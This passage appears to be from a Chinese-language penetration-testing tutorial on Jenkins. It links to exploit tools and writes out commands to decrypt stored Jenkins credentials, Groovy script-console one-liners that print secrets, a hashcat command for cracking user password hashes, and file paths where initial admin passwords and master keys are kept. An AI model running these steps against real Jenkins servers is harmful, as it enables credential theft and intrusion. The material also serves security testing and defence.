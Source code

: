 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VGuVH0Ahzqn7w3ult3alMG8qYU5LWbg3uicgddXnicB87DqeOwfsrZNceQrzKBLGhbCt51xiaPjbPjeQ/640?wx_fmt=png&from=appmsg "")  
  
  
5.漏洞利用工具  
  
https://github.com/TheBeastofwar/JenkinsExploit-GUI  
  
https://github.com/TheBeastofwar/JenkinsExploit-GUI/releases  
  
https://github.com/hoto/jenkins-credentials-decryptor  
### 1.2.2凭证解密  
  
jenkins-credentials-decryptor 是一个用于解密和转储Jenkins凭证的命令行工具。Jenkins将加密的凭证存储在 credentials.xml 文件或 config.xml 文件中。要解密这些凭证，您需要 master.key 和 hudson.util.Secret 文件。所有这些文件都位于Jenkins主目录中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VGuVH0Ahzqn7w3ult3alMG8tFsXBqYDPwfC0revDXJEKtoWKiaIF85yiaoxOVptBMVic2Np5tm7KBzfQ/640?wx_fmt=png&from=appmsg "")  
  
  
chmod +x jenkins-credentials-decryptor  
  
./jenkins-credentials-decryptor   -m master.key   -s hudson.util.Secret   -c credentials.xml   -o json  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VGuVH0Ahzqn7w3ult3alMG8UeYBzudkcK60l10tVZjA0Mzkp16mlee8I0PaG5opibOkQDhYcAC9cug/640?wx_fmt=png&from=appmsg "")  
  
  
通过访问凭据->系统->全局凭据->某个凭据->更新来查看加密后的凭据  
  
点击系统管理->命令脚本行，输入如下代码，即可查看密码  
  
println(hudson.util.Secret.fromString('xxxxxxxxxxxxxxxxxxxx').getPlainText())  
  
println(hudson.util.Secret.decrypt("xxxxxxxxxxxxxxx"))  
### 1.1.3 jenkins用户账号密码解密  
  
在var/lib/jenkins/users/用户名开头的文件夹中获取某个config.xml的passwordHash值，将其整理成jks.txt，然后在hashcat中执行命令进行破解，如图1所示。  
  
hashcat -m 3200 -a 0 -w 3 -O jks.txt pass.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VGuVH0Ahzqn7w3ult3alMG8SMub45xibInTiahHX64y3bfd6TGcDPsm8tdxzFosF0doB9Ih1hsCAZqQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VGuVH0Ahzqn7w3ult3alMG8O7H2wE7wa6yAAQJl2cJ4M1C51n7LUyMdtu0nLvP6FH2xeZDBPYB5Jw/640?wx_fmt=png&from=appmsg "")  
  
### 1.1.4远程命令执行漏洞  
  
1.初始账号密码存在文件  
  
Linux: /var/lib/jenkins/secrets/initialAdminPassword  
  
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword  
  
masterkey：  
  
d86e7f436661e2bf7eb52f51ad52d6ed392ae22dfebd649164bb83f2b409710e595c285c3ea347c0162f389f7982e62111ae6c7c33602bb5ecb2d9448fbc4f46e576a39dc5dc28871abfd3afb499be5a924bdc2893f0e06b147e5a601bc686b804564fe24a4f8e0c4af14a5a3c0df97d23da8a35fa0d2fdbe75cd19389ca5392  
  